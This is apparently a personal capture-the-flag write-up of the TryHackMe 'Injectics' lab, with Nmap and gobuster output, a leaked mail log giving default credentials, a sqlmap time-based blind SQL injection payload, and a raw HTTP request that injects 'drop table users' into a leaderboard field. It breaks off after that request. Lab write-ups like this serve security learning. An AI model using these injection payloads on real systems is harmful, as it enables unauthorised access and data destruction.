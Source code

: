 <code>
  
## injectics

https://tryhackme.com/r/room/injectics

### Enumeration

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-16 06:01 EST
Nmap scan report for 10.10.136.219
Host is up (0.036s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 df:14:5e:7b:3c:5d:14:1e:a2:fb:8e:16:69:e8:1d:b7 (RSA)
|   256 d8:a2:ad:30:00:60:82:f1:a0:d9:8e:b8:50:93:65:7c (ECDSA)
|_  256 0f:50:9b:b7:2a:46:2c:d3:be:bb:dd:41:ee:d6:79:1b (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Injectics Leaderboard
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.80 seconds


gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.136.219 -x php,txt,html                                            

[+] Url:                     http://10.10.136.219
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
/.html                (Status: 403) [Size: 278]
/index.php            (Status: 200) [Size: 6592]
/.php                 (Status: 403) [Size: 278]
/login.php            (Status: 200) [Size: 5401]
/flags                (Status: 301) [Size: 314] [--> http://10.10.136.219/flags/]
/css                  (Status: 301) [Size: 312] [--> http://10.10.136.219/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.10.136.219/js/]
/javascript           (Status: 301) [Size: 319] [--> http://10.10.136.219/javascript/]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/vendor               (Status: 301) [Size: 315] [--> http://10.10.136.219/vendor/]
/dashboard.php        (Status: 302) [Size: 0] [--> dashboard.php]
/functions.php        (Status: 200) [Size: 0]
/phpmyadmin           (Status: 301) [Size: 319] [--> http://10.10.136.219/phpmyadmin/]
/.php                 (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
/conn.php             (Status: 200) [Size: 0]
/server-status        (Status: 403) [Size: 278]



### in source code found notice about mail.log

http://10.10.136.219/mail.log

from: dev@injectics.thm
To: superadmin@injectics.thm
Subject: Update before holidays

Hey,

Before heading off on holidays, I wanted to update you on the latest changes to the website. I have implemented several enhancements and enabled a special service called Injectics. This service continuously monitors the database to ensure it remains in a stable state.

To add an extra layer of safety, I have configured the service to automatically insert default credentials into the `users` table if it is ever deleted or becomes corrupted. This ensures that we always have a way to access the system and perform necessary maintenance. I have scheduled the service to run every minute.

Here are the default credentials that will be added:

| Email                     | Password 	              |
|---------------------------|-------------------------|
| superadmin@injectics.thm  | superSecurePasswd101    |
| dev@injectics.thm         | devPasswd123            |

Please let me know if there are any further updates or changes needed.

Best regards,
Dev Team

dev@injectics.thm


┌──(kali㉿kali)-[~/Documents/THM/THM_Injectics]
└─$ sqlmap -r reg1.txt --level 5 --risk=3 --dump     
        ___
       __H__                                                                                                        
 ___ ___["]_____ ___ ___  {1.8.11#stable}                                                                           
|_ -| . [(]     | .'| . |                                                                                           
|___|_  [)]_|_|_|__,|  _|                                                                                           
      |_|V...       |_|   https://sqlmap.org                                                                        

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 09:15:11 /2025-01-16/

[09:15:11] [INFO] parsing HTTP request from 'reg1.txt'
[09:15:11] [INFO] resuming back-end DBMS 'mysql' 
[09:15:11] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 RLIKE time-based blind
    Payload: username=10.10.9.71' RLIKE SLEEP(5)-- hcXN&password=10.10.9.71&function=login
---
[09:15:11] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.10 or 20.04 or 19.10 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 5.0.12
[09:15:11] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[09:15:11] [INFO] fetching current database
[09:15:11] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
[09:15:13] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 

[09:15:13] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[09:15:13] [INFO] fetching database names
[09:15:13] [INFO] fetching number of databases
[09:15:13] [INFO] retrieved: 
[09:15:13] [ERROR] unable to retrieve the number of databases
[09:15:13] [INFO] falling back to current database
[09:15:13] [INFO] fetching current database
[09:15:13] [INFO] retrieved: 
[09:15:14] [CRITICAL] unable to retrieve the database names
[09:15:14] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.9.71'


http://injectics.thm/composer.json
equire	
twig/twig	"2.14.0"

http://injectics.thm//phpmyadmin/doc/html/index.html
phpMyAdmin 4.9.5

To get access to the admin panel for the challenge question, I need to delete the ‘users’ table. So I want to find somewhere to inject:

drop table users -- -

So inject in dashboard

POST /edit_leaderboard.php HTTP/1.1
Host: injectics.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://injectics.thm/edit_leaderboard.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 208
Origin: http://injectics.thm
Connection: keep-alive
Cookie: PHPSESSID=04v8k348jddp0b0d76n46c16cu
Upgrade-Insecure-Requests: 1

rank=2&country=&gold=7; drop table users -- -&silver=0&bronze=7





  
<\code>
